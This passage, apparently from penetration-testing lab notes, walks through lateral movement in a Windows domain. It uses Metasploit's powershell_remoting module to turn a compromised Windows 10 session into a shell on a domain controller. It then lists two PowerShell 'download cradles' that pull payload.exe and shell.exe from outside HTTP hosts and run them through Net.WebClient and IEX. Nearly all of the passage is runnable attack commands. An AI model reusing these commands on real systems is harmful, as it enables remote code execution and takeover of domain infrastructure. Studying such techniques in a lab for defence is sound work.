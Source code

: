 > we should get a shell back from the win10 machine


### to execute commands on the DC, we just need to modify the powershell_remoting
```powershell
set SESSION 2 = the win10 machine
set RHOSTS 10.100.10.253 = the IP of DC
exploit -j
```

> now we should have a shell from the DC

### download cradles used
```powershell
powershell "iex (New-Object Net.WebClient).DownloadFile('http://10.100.11.101:8000/payload.exe', 'C:\Windows\Temp\payload.exe')"

powershell "IEX (New-Object Net.WebClient).DownloadString('http://175.13.80.5:8000/shell.exe')
```



